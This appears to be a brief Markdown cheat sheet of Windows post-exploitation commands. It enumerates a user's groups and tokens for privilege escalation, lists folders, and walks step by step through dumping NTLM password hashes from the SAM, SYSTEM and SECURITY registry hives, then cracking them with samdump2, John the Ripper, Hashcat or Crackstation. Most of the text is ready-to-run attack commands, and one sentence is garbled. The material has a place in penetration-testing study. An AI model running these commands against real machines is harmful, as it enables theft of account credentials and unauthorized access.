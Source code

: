 

## **Check User Permissions and Group Info (Filtered View)**

```bash
whoami /all | Select-String -Pattern "username" -Context 2,0

# example
whoami /all | Select-String -Pattern "wade" -Context 2,0
```
This command helps you **find out what groups or permissions a specific user (like `jareth`) has** on a Windows system. It searches through the detailed `whoami /all` output and shows any lines related to the user, along with 2 lines above it for extra context. Useful during **privilege escalation** to check if a user has powerful roles or tokens.

# Show folders recursive 

```bash
tree /f
```

# Dumping NTLM Hashes
#### Step 1: Save the Registry Hives
📝 Make sure you have administrative or SYSTEM privileges to run these commands.

```bash
# Stores user password hashes
reg save HKLM\SAM SAM   

# Contains the boot key used to decrypt the hashes
reg save HKLM\SYSTEM SYSTEM 

# May be used for further secrets (e.g., LSA secrets
reg save HKLM\SECURITY SECURITY 
```
#### Step 2: Extract Hashes Using `samdump2`
Once you have the `SAM` and `SYSTEM` hives, extract the hashes with: 

```
samdump2 SYSTEM SAM
```
#### Step 3: Crack the Hashes
I take the LM code of  and decode it through online site _Crackstation,_ you guys can try it with offline tools like: **_JohnTheRipper_** or **_Hashcat_**.
```bash
# _JohnTheRipper_
john --format=nt hash.txt --wordlist=rockyou.txt

#_Hashcat_
`hashcat -m 1000 hash.txt rockyou.txt`
```
